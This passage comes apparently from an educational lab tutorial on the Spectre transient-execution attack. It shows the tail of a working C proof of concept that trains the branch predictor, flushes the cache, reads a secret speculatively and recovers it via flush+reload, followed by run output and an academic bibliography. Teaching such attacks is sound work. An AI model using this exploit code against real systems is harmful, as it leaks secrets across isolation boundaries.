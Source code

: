 ```c

    /* Train the CPU to take the true branch inside sandbox function */
    for (i = 0; i < 10; i++) {
        restrictedAccess(i);
    }

    /* Flush buffer_size and array[] from the cache */
    _mm_clflush(&buffer_size);      /* Required for the attack to take effect */
    for (i = 0; i < 256; i++) {
        _mm_clflush(&array[i * 4096 + DELTA]);
    }
    for (i = 0; i < 100; i++) { }

    s = restrictedAccess(larger_x); /* Only zero should be returned */
    array[s * 4096 + DELTA] += 88;  /* However the cache is not cleaned */
}

int main()
{
    flushSideChannel();

    size_t larger_x = (size_t)(secret - (char *)buffer);    /* Offset of the secret from the beginning of the buffer */
    spectreAttack(larger_x);
    
    reloadSideChannel();

    return 0;
}
```

Since we are racing against the execution unit that is comparing our input to the buffer size, we flush the <code>buffer_size</code> variable from the cache so that the comparation takes longer. Compile the program and run it multiple times:
```console
$ gcc -march=native SpectreAttack.c -o SpectreAttack
$ ./SpectreAttack
array[0 * 4096 + 1024] is in cache!
The secret is 0.
array[83 * 4096 + 1024] is in cache!
The secret is 83.
$ ./SpectreAttack
array[0 * 4096 + 1024] is in cache!
The secret is 0.
$ ./SpectreAttack
array[0 * 4096 + 1024] is in cache!
The secret is 0.
$ ./SpectreAttack
array[0 * 4096 + 1024] is in cache!
The secret is 0.
array[83 * 4096 + 1024] is in cache!
The secret is 83.
$ ./SpectreAttack
array[0 * 4096 + 1024] is in cache!
The secret is 0.
array[83 * 4096 + 1024] is in cache!
The secret is 83.
```


[^intro1]: Claudio Canella, Jo Van Bulck, Michael Schwarz, Moritz Lipp, Benjamin von Berg, Philipp Ortner, Frank Piessens, Dmitry Evtyushkin, and Daniel Gruss, "A Systematic Evaluation of Transient Execution Attacks and Defenses," In *Proceedings of the 28th USENIX Security Symposium*, August 14-16, 2019, Santa Clara, CA, USA.
[^1]: Colin Percival, "Cache Missing for Fun and Profit," In *BSDCan 2005*, Ottawa, CA, 2005.
[^2]: Matt Miller, "Mitigating Speculative Execution Side Channel Hardware Vulnerabilities," [https://msrc-blog.microsoft.com/2018/03/15/mitigating-speculative-execution-side-channel-hardware-vulnerabilities/](https://msrc-blog.microsoft.com/2018/03/15/mitigating-speculative-execution-side-channel-hardware-vulnerabilities/), March 15, 2018.
[^3]: Daniel J. Bernstein, "Cache-Timing Attacks on AES," [https://cr.yp.to/antiforgery/cachetiming-20050414.pdf](https://cr.yp.to/antiforgery/cachetiming-20050414.pdf), April 2005.
[^4]: David Gullasch, Endre Bangerter, and Stephen Krenn, "Cache Games &mdash; Bringing Access-Based Cache Attacks on AES to Practice," In *2011 IEEE Symposium on Security and Privacy*, May 22-25, 2011, Oakland, CA, USA.
[^5]: [Eran Tromer](http://www.cs.tau.ac.il/~tromer/cache/), Dag Arne Osvik, and Adi Shamir, "Efficient Cache Attacks on AES, and Countermeasures," *Journal of Cryptology*, Vol. 23, No. 1, 37-71, Springer, 2010.
[^6]: Fangfei Liu, Yuval Yarom, Qian Ge, Gernot Heiser, Ruby B. Lee, "Last-Level Cache Side-Channel Attacks are Practical," In *2015 IEEE Symposium on Security and Privacy*, May 17-21, 2015, San Jose, CA, USA.
[^7]: Gorka Irazoqui, Thomas Eisenbarth, and Berk Sunar, "S&dollar;A: A Shared Cache Attack that Works Across Cores and Defies VM Sandboxing &mdash;&mdash; and its Application to AES," In *2015 IEEE Symposium on Security and Privacy*, May 17-21, 2015, San Jose, CA, USA.
[^8]: Yuval Yarom and Katrina Falkner, "Flush+Reload: A High Resolution, Low Noise, L3 Cache Side-Channel Attack," In *Proceedings of the 23rd USENIX Security Symposium*, August 20-22, 2014, San Diego, CA, USA.
[^9]: Jann Horn, Google Project Zero, "Reading Privileged Memory with a Side-Channel," [https://googleprojectzero.blogspot.com/2018/01/reading-privileged-memory-with-side.html](https://googleprojectzero.blogspot.com/2018/01/reading-privileged-memory-with-side.html).
[^10]: Tao Zhang, Kenneth Koltermann, and Dmitry Evtyushkin, "Exploring Branch Predictors for Constructing Transient Execution Trojans," In *ASPLOS'20: Proceedings of the Twenty-Fifth International Conference on Architectural Support for Programming Languages and Operating Systems*, March 16-20, 2020, Lausanne, Switzerland.
[^11]: Nadav Amit, Fred Jacobs, and Michael Wei, "JumpSwitches: Restoring the Performance of Indirect Branches in the Era of Spectre," In *Proceedings of the 2019 USENIX Annual Technical Conference*, July 10-12, 2019, Renton, WA, USA.
[^12]: Dmitry Evtyushkin, Dmitry Ponomarev, and Nael Abu-Ghazaleh, "Jump over ASLR: Attacking Branch Predictors to Bypass ASLR," In *2016 49th Annual IEEE/ACM International Symposium on Microarchitecture (MICRO)*, October 15-19, 2016, Taipei, Taiwan, China.
[^13]: Return Stack Buffer Underflow / CVE-2022-29901, CVE-2022-28693 / INTEL-SA-00702, [https://www.intel.com/content/www/us/en/developer/articles/technical/software-security-guidance/advisory-guidance/return-stack-buffer-underflow.html](https://www.intel.com/content/www/us/en/developer/articles/technical/software-security-guidance/advisory-guidance/return-stack-buffer-underflow.html).
[^14]: Esmaeil Mohammadian Koruyeh, Khaled N. Khasawneh, Chengsu Song, and Nael Abu-Ghazaleh, "Spectre Returns! Speculation Attacks Using the Return Stack Buffer," *WOOT'18: Proceedings of the 12th USENIX Conference on Offensive Technologies*, August 2018.